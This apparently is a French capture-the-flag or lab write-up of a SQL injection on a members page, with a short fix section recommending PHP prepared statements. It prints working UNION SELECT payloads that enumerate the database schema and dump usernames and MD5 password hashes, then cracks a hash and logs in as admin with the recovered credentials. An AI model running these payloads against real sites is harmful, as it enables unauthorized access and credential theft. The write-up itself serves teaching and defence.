 # Vulnérabilité

Sur la page membres, cette injection SQL basique nous permet de lister les tables SQL exsitantes:

`1=1 UNION SELECT table_name, table_schema FROM information_schema.tables;`

On trouve alors une table nommée `db_default` avec un schéma `Member_Brute_Force`.

Ensuite on peut lister les colonnes de toutes les tables avec cette injection SQL:

`1=1 UNION SELECT table_name, column_name FROM information_schema.columns;`

On identifie alors 3 colonnes: `username`, `password` et `id`.

Maintenant que nous avons toutes ces informations nous pouvons faire une requête SQL via injection pour récupérer toutes les informations que nous souhaitons sur la table.

`1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default`

On identifie alors deux utilisateurs:

`root:3bf1114a986ba87ed28fc1b5884fc2f8`
`admin:3bf1114a986ba87ed28fc1b5884fc2f8`

Rapidement, on s'aperçoit que les mots de passes sont des hash MD5.

On peut utiliser un outil tel que https://md5decrypt.net/ pour décrypter le hash et on retrouve alors le mot de passe d'origine `shadow`.

Enfin sur la page `http://192.168.X.X/?page=signin` on peut se connecter sur les comptes trouvés comme par exemple `admin:shadow`.

# Solution

Pour se protéger de la faille, il faut utiliser des requêtes préparées.

__Exemple en PHP:__

```
// Avec PDO (https://www.php.net/manual/fr/pdo.prepare.php)

$stmt = $pdo->prepare('SELECT * FROM salaries WHERE prenom = :prenom');
$stmt->execute(array('prenom' => $prenom));

foreach ($stmt as $ligne) {
	// Traitement de la ligne de résultat
}
```

Le mot de passe pourrait également être trouvé facilement avec une wordlist via Brute Force, il est recommandé d'utiliser des mots de passes plus complexes et qui ne font pas références à des mots existants.